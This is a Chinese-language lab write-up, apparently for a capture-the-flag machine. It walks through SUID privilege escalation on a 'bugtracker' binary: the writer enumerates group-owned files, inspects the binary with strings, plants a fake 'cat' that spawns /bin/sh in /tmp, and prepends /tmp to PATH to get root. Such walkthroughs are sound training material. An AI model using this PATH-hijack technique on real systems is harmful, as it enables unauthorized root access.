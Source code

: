 * 目前使用的帳號為robert我們可以使用id命令來驗證我們現在位於哪個用戶組中
```
id
```
![](https://i.imgur.com/msvhO3d.png)
* 從上圖可知robert是Bugtrack group裡的成員。檢查一下Bugtrack group可以訪問哪些文件。
```
find / -type f -group bugtracker 2> /dev/null
```

* / -type f :在根目錄下(/)，尋找一般檔案(-type f)
* 使用 -group 參數可以指定檔案的群組，例如在 / 之下搜尋所有 bugtracker 群組的檔案：
* 2> /dev/null :將過濾掉錯誤，只輸出成功結果

![](https://i.imgur.com/utmJnuq.png)

* 查看該目錄，我們可以發現一個bugtracker的二進製文件，並具有[SUID](https://dywang.csie.cyut.edu.tw/dywang/linuxSystem/node34.html)權限。(可以執行[SUID提權](https://www.anquanke.com/post/id/86979)攻擊)
```
ls -l /usr/bin/bugtracker
```
![](https://i.imgur.com/xsDj1dF.png)

* 嘗試執行該檔案
```
./usr/bin/bugtracker
```
![](https://i.imgur.com/JWtNREw.png)

* 沒有東西。我們使用strings指令，分析二進製文件中是否有任何硬編碼信息。
```
strings /usr/bin/bugtracker
```
![](https://i.imgur.com/0h1jOs0.png)

* cat指令是常用來做的SUID提權攻擊
* 切換到tmp目錄底下
```
cd /tmp/
```
* 創建etc文件
```
echo '/bin/sh' > cat
```
* 將etc文件轉為可執行檔
```
chmod +x cat
```
* 然後將當前工作目錄添加到PATH。
```
export PATH=/tmp:$PATH
```
* 再次運行/usr/bin/bugtracker二進製文件。選擇ID 1(cat /root/report ID為1)，提權成功!
```
 /usr/bin/bugtracker
```
![](https://i.imgur.com/1wYKUK7.png)
